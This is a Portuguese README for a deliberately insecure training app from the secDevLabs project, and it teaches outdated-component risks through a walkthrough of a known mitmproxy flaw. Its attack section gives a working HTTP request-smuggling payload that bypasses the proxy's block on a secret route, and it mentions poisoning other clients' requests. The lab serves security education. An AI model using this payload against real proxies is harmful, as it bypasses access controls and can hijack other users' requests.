


<!-- This is a README Template for secDevLabs apps -->
# Golden hat society

[Access content in English](README.md)

<p align="center">
    
</p>

Golden hat society é uma aplicação feita com python que possui um proxy reverso, mitmproxy, bloqueando a rota `/golden.secret` que deve ser acessada apenas por quem está dentro da VPN docker.

## Index

- [Definição](#O-que-significa-usar-componentes-desatualizados-e-vulneráveis)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que significa usar componentes desatualizados e vulneráveis?

Essa vulnerabilidade foi a 9º no top dez OWASP de 2017 e chegou ao 6º em 2021. Normalmente, softwares que contêm conexões de entrada são executados por usuários exclusivos com permissões restritas. O motivo é que, se alguém explorar o aplicativo, esse invasor não poderá fazer muito por causa dessas permissões.

À medida que os softwares ficam cada vez maiores, devemos usar algumas bibliotecas em algum momento, isso significa que essas bibliotecas também devem ser seguras. O ponto principal desta vulnerabilidade é usar uma lib, framework e outros módulos vulneráveis ​​a uma vulnerabilidade já conhecida (conhecida por avisos).

O principal objetivo deste aplicativo é discutir como os **componentes desatualizados e vulneráveis** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/golden-hat
```

```sh
make install
```

Depois é só visitar [localhost:10006][app] ! :ghost:

## Conheça o app  ⚜️

Para entender corretamente como esse aplicativo funciona, você pode:

- Visitar sua página inicial!

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso da versão mitmproxy vulnerável permite ataques de dessincronização HTTP 

Primeira acesso ao aplicativo:

<p align="center">
    
</p>

Uma vez que tentamos alcançar o `/golden.secret` podemos ver cabeçalhos interessantes:

<p align="center">
    
</p>

Como podemos ver este `Via: mitmproxy/5.3.0` nos ajuda com o reconhecimento. Agora que sabemos o que está sendo executado no servidor, podemos procurar CVEs nesta versão do mitmproxy. Assim que encontrarmos o CVE-2021-39214, podemos fazer um exploit para essa vulnerabilidade.

Vamos dar uma olhada no código fonte do mitmproxy, [TAG 5.3.0](https://github.com/mitmproxy/mitmproxy/tree/v5.3.0) no arquivo [/mitmproxy/net/http/http1/read.py :L209](https://github.com/mitmproxy/mitmproxy/blob/a738b335a36b58f2b30741d76d9fe41866309299/mitmproxy/net/http/http1/read.py#L209):

```python
if "chunked" in headers.get("transfer-encoding", "").lower():
    return None
```

Como podemos ver, este pedaço de código é responsável pela vulnerabilidade. Agora que sabemos que o proxy processa qualquer solicitação como chunked que contenha a palavra-chave chunked, podemos criar uma solicitação que o proxy entenderá como `Transfer-Encoding` chunked e o backend do gunicorn entenderá como `Content-Length`. 

Este pedido pode ser enviado em repetidor burp (você deve desabilitar a opção `update content-length`), telnet, netcat ou qualquer tipo de conexão que permita enviar textos através de sockets.

```
GET /w HTTP/1.1
Host: 127.0.0.1:10006
Transfer-Encoding: chunkedasd
Content-Length: 4

35
GET /golden.secret HTTP/1.1
Host: 127.0.0.1:8000


0

GET / HTTP/1.1
Host: 127.0.0.1:10006


```

A primeira solicitação força um erro 404. O frontend(proxy) irá analisar a requisição como uma requisição normal com corpo até o 0. O backend irá processar a primeira requisição até 35 e então irá analisar a requisição para `/golden.secret` envenenando o próximo socket. Em seguida, apenas colocamos uma nova solicitação de alinhamento no final para envenenar um soquete que controlamos.

Depois de executar esta carga como uma solicitação, podemos ver a página secreta: 104

<p align="center">
    
</p>

Essa vulnerabilidade é interessante porque você pode envenenar as solicitações de outros clientes e convencê-los a fazer o que quiser!

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Ignorar regras de proxy.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Golden+Hat+Society%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[secDevLabs]: https://github.com/globocom/secDevLabs
[app]: http://localhost:10006
